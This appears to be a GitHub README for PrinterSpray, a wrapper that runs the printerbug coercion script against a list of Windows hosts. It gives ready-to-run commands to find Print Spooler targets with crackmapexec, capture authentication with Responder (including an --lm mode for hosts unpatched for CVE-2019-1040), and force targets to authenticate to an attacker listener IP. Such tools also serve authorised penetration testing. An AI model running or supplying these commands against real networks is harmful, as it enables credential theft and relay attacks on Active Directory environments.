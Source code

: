 # PrinterSpray

Wrapper of https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py to be used with a list of IPs. 

Discover potentual targets

```
crackmapexec smb [subnet] -u '' -p '' -M spooler | grep -a "Spooler service enabled" | awk -F " " '{print$2}' > spooler.txt
```

Have responder running

```
sudo responder -I [interface] -Av
```
Also try with --lm to discover hosts that are not patched to CVE-2019-1040

```
sudo responder -I [interface] --lm -Av
```

Run against hosts that have the spooler service enabled

```
./printerspray.sh -t [targets file] -d [AD domain] -u [username] -p [pwd] -l [listenerIP]
```

Example:

```
./printerspray.sh -t ./spooler.txt -d 'labdomain.local' -u 'ADuser1' -p 'pwd' -l 192.168.1.23
```
